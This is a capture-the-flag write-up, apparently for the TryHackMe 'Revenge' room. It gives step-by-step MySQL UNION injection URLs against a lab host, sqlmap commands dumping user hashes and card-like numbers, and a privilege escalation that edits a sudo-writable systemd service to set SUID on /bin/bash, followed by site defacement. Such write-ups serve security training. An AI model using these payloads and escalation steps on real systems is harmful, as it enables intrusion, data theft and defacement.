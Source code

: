 # 42 - Revenge (MySQL Injection)

Room Link --> [https://tryhackme.com/room/revenge](https://tryhackme.com/room/revenge)

### Enumeration

{% code overflow="wrap" lineNumbers="true" %}
```bash
```
{% endcode %}

After Navigating round the entire page, there is a `/products` page that is vulnerable to SQL injection.

If you navigate to a page that dosen't exist, it displays an error.&#x20;

<figure><img src=".gitbook/assets/image (8) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Number of Columns

`http://10.10.157.23/products/5 UNION SELECT 1,2,3,4,5,6,7,8-- -` - there are 8 columns, if you enter `9` you get an error, and again we see that both columns 8 and 2 are visible so we can output our queries from either of them.

<figure><img src=".gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Current User of the DB

`http://10.10.157.23/products/5%20UNION%20SELECT%201,current_user(),3,4,5,6,7,8`

<figure><img src=".gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Its the root user.

### Schema/DB Name

`http://10.10.157.23/products/5%20UNION%20SELECT%201,database(),3,4,5,6,7,8`&#x20;

<figure><img src=".gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Or we can do the below to dump all schemas/dbs**

`http://10.10.157.23/products/5 UNION SELECT 13,CONCAT(JSON_ARRAYAGG(schema_name)),13,13,13,13,13,13 FROM INFORMATION_SCHEMA.SCHEMATA` - or we can use the "JSON\_ARRAYAGG" with the "CONCAT" function to view all DB/Schema names.

<figure><img src=".gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Table Name

`http://10.10.157.23/products/5 UNION SELECT 1,CONCAT(table_name),3,4,5,6,7,8 from information_schema.tables where table_schema="duckyinc"` -&#x20;

Table name is --> product

**Or we can do the below to dump all tables in the "duckyinc" schema/db**

`http://10.10.157.23/products/5 UNION SELECT 13,CONCAT(JSON_ARRAYAGG(table_name)),13,13,13,13,13,13 FROM INFORMATION_SCHEMA.TABLES WHERE table_schema="duckyinc"`&#x20;

<figure><img src=".gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Columns in Table

`http://10.10.157.23/products/5 UNION SELECT 13,CONCAT(JSON_ARRAYAGG(column_name)),13,13,13,13,13,13 FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name="product"`&#x20;

<figure><img src=".gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Now:

Under the \`system\_user" Table, these are the columns:

`http://10.10.157.23/products/5 UNION SELECT 13,CONCAT(JSON_ARRAYAGG(column_name)),13,13,13,13,13,13 FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name="system_user"` .

{% code lineNumbers="true" %}
```bash
["id", "username", "_password", "email"]
```
{% endcode %}

Under the "user" Table, there are many columns here:

`http://10.10.157.23/products/5 UNION SELECT 13,CONCAT(JSON_ARRAYAGG(column_name)),13,13,13,13,13,13 FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name="system_user"` .

{% code overflow="wrap" lineNumbers="true" %}
```bash
["id", "username", "_password", "credit_card", "email", "company", "Host", "User", "Select_priv", "Insert_priv", "Update_priv", "Delete_priv", "Create_priv", "Drop_priv", "Reload_priv", "Shutdown_priv", "Process_priv", "File_priv", "Grant_priv", "References_priv", "Index_priv", "Alter_priv", "Show_db_priv", "Super_priv", "Create_tmp_table_priv", "Lock_tables_priv", "Execute_priv", "Repl_slave_priv", "Repl_client_priv", "Create_view_priv", "Show_view_priv", "Create_routine_priv", "Alter_routine_priv", "Create_user_priv", "Event_priv", "Trigger_priv", "Create_tablespace_priv", "ssl_type", "ssl_cipher", "x509_issuer", "x509_subject", "max_questions", "max_updates", "max_connections", "max_user_connections", "plugin", "authentication_string", "password_expired", "password_last_changed", "password_lifetime", "account_locked"]
```
{% endcode %}

But the "username, password, creditcard" are what we need to check out.

### Dump Data

We can use the `LIMIT` statement to view all the data one by one.

**1st row**

`http://10.10.157.23/products/5 UNION SELECT 1,CONCAT(id,"-",username,"-",_password,"-",email),3,4,5,6,7,8 FROM system_user LIMIT 0,1` .

<figure><img src=".gitbook/assets/image (9) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**2nd row**

`http://10.10.157.23/products/5 UNION SELECT 1,CONCAT(id,"-",username,"-",_password,"-",email),3,4,5,6,7,8 FROM system_user LIMIT 1,1`

<figure><img src=".gitbook/assets/image (10) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% code lineNumbers="true" %}
```bash
1-server-admin-$2a$08$GPh7KZcK2kNIQEm5byBj1umCQ79xP.zQe19hPoG/w2GoebUtPfT8a-sadmin@duckyinc.org
2-kmotley-$2a$12$LEENY/LWOfyxyCBUlfX8Mu8viV9mGUse97L8x.4L66e9xwzzHfsQa-kmotley@duckyinc.org
3-dhughes-$2a$12$22xS/uDxuIsPqrRcxtVmi.GR2/xh0xITGdHuubRF4Iilg5ENAFlcK-dhughes@duckyinc.org

```
{% endcode %}

### Using Sqlmap

{% code lineNumbers="true" %}
```bash
# dump the dbs/schemas
sqlmap 10.10.157.23/products/1 --batch --dbs

# dump tables for the "duckyinc" schema/db.
sqlmap 10.10.157.23/products/1 --batch -D duckyinc --tables

# dump the data.
sqlmap 10.10.157.23/products/1 --batch -D duckyinc -T user --dump


# output
+----+---------------------------------+------------------+----------+--------------------------------------------------------------+----------------------------+
| id | email                           | company          | username | _password                                                    | credit_card                |
+----+---------------------------------+------------------+----------+--------------------------------------------------------------+----------------------------+
| 1  | sales@fakeinc.org               | Fake Inc         | jhenry   | $2a$12$dAV7fq4KIUyUEOALi8P2dOuXRj5ptOoeRtYLHS85vd/SBDv.tYXOa | 4338736490565706           |
| 2  | accountspayable@ecorp.org       | Evil Corp        | smonroe  | $2a$12$6KhFSANS9cF6riOw5C66nerchvkU9AHLVk7I8fKmBkh6P/rPGmanm | 355219744086163            |
| 3  | accounts.payable@mcdoonalds.org | McDoonalds Inc   | dross    | $2a$12$9VmMpa8FufYHT1KNvjB1HuQm9LF8EX.KkDwh9VRDb5hMk3eXNRC4C | 349789518019219            |
| 4  | sales@ABC.com                   | ABC Corp         | ngross   | $2a$12$LMWOgC37PCtG7BrcbZpddOGquZPyrRBo5XjQUIVVAlIKFHMysV9EO | 4499108649937274           |
| 5  | sales@threebelow.com            | Three Below      | jlawlor  | $2a$12$hEg5iGFZSsec643AOjV5zellkzprMQxgdh1grCW3SMG9qV9CKzyRu | 4563593127115348           |
| 6  | ap@krasco.org                   | Krasco Org       | mandrews | $2a$12$reNFrUWe4taGXZNdHAhRme6UR2uX..t/XCR6UnzTK6sh1UhREd1rC | thm{br3ak1ng_4nd_3nt3r1ng} |
| 7  | payable@wallyworld.com          | Wally World Corp | dgorman  | $2a$12$8IlMgC9UoN0mUmdrS3b3KO0gLexfZ1WvA86San/YRODIbC8UGinNm | 4905698211632780           |
| 8  | payables@orlando.gov            | Orlando City     | mbutts   | $2a$12$dmdKBc/0yxD9h81ziGHW4e5cYhsAiU4nCADuN0tCE8PaEv51oHWbS | 4690248976187759           |
| 9  | sales@dollatwee.com             | Dolla Twee       | hmontana | $2a$12$q6Ba.wuGpch1SnZvEJ1JDethQaMwUyTHkR0pNtyTW6anur.3.0cem | 375019041714434            |
| 10 | sales@ofamdollar                | O!  Fam Dollar   | csmith   | $2a$12$gxC7HlIWxMKTLGexTq8cn.nNnUaYKUpI91QaqQ/E29vtwlwyvXe36 | 364774395134471            |
+----+---------------------------------+------------------+----------+--------------------------------------------------------------+----------------------------+
```
{% endcode %}

<figure><img src=".gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>The flag is also here.</p></figcaption></figure>

### Initial Access

#### Moving forward to Cracking the hashes.

<figure><img src=".gitbook/assets/image (284).png" alt=""><figcaption></figcaption></figure>

The password for the `server-admin` was cracked successfully.

<figure><img src=".gitbook/assets/image (283).png" alt=""><figcaption></figcaption></figure>

### Priv Esc

`sudo -l` .

<figure><img src=".gitbook/assets/image (285).png" alt=""><figcaption></figcaption></figure>

We can modify the "duckyinc.service" file as root.

We can modify this service to our own vulnerable version which will give us a root shell. This will give `/bin/bash` a SUID bit set.

```bash
# edit the service file to:
[Service]
Type=oneshot
ExecStart=/bin/bash -c "chmod +s /bin/bash"

[Install]
WantedBy=multi-user.target

# after editing the file.
server-admin@duckyinc:~$ sudo -u root /bin/systemctl daemon-reload
server-admin@duckyinc:~$ sudo -u root /bin/systemctl restart duckyinc.service
server-admin@duckyinc:~$ ls -l /bin/bash 
-rwsr-sr-x 1 root root 1113504 Jun  6  2019 /bin/bash
```

<figure><img src=".gitbook/assets/image (286).png" alt=""><figcaption></figcaption></figure>

And we are root:

<figure><img src=".gitbook/assets/image (287).png" alt=""><figcaption></figcaption></figure>

But if we see, we do not have the root flag in `/root` directory. We know from the note we got that we need to deface the front page in order to complete the challenge.

If we check the root dir, we can see a `.vininfo` file, making reference to a `/var/www/duckyinc/templates/index.html` - this is the index page of the company website.

```
nano /var/www/duckyinc/templates/index.html
```

<figure><img src="https://i0.wp.com/1.bp.blogspot.com/-qYnnkX3DZIE/X6_mk-ogPfI/AAAAAAAAqqM/627nZBkUVp8n9p-_OWj3vwM7W2xwa5tKACLcBGAsYHQ/s16000/16.png?w=640&#x26;ssl=1" alt=""><figcaption></figcaption></figure>

We list the directory again and now we can read the last flag.

<figure><img src=".gitbook/assets/image (288).png" alt=""><figcaption></figcaption></figure>

Done!

